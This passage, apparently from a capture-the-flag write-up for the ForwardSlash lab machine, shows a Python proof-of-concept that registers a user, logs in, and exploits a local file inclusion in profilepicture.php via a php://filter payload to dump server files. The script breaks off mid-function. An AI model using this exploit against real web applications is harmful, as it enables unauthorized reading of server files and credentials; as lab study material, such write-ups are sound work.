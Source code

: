 Created a PoC in Python to automate our steps and easily exfiltrate the files.

```python
import argparse
import base64
import os
import requests
import sys

def login(target, user, password, session, headers):
    url = f'http://{target}/login.php'
    data = f'username={user}&password={password}'
    response = session.post(url, headers=headers, data=data, allow_redirects=False)

    if response.status_code == 302:
        print(f"\n[+] Logged in as {user}:{password}")

    else:
        raise Exception("\n[!] Login failed :(")

    return session

def register(target, headers):

    # register as dusk:dusk1234
    url = f'http://{target}/register.php'
    data = 'username=dusk&password=dusk1234&confirm_password=dusk1234'

    requests.post(url, headers=headers, data=data, allow_redirects=False)

def exploit(target, file, write, user="", password=""):

    s = requests.Session()
    headers = {
        'Host': 'backup.forwardslash.htb',
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    # log in
    if not user or not password:
        register(target, headers)
        user, password = 'dusk', 'dusk1234'

    s = login(target, user, password, s, headers)
    
    # LFI
    url = f'http://{target}/profilepicture.php'
    payload = f'php://filter/convert.base64-encode/resource={file}'
    data = f'url={payload}'
    
    response = s.post(url, headers=headers, data=data)

    # format output
    response_list = response.text.split('\n')
    offset = response_list.index('</html>') + 1
    payload = ''.join(response_list[offset:])
    file_dump = base64.b64decode(payload).decode('utf-8')

    print(f'\n[+] Dumping {file}:\n\n{file_dump}')

    # write to disk
    dump_filename = file.split('/')[-1] + '.dmp'

    if write and not os.path.exists(dump_filename):
```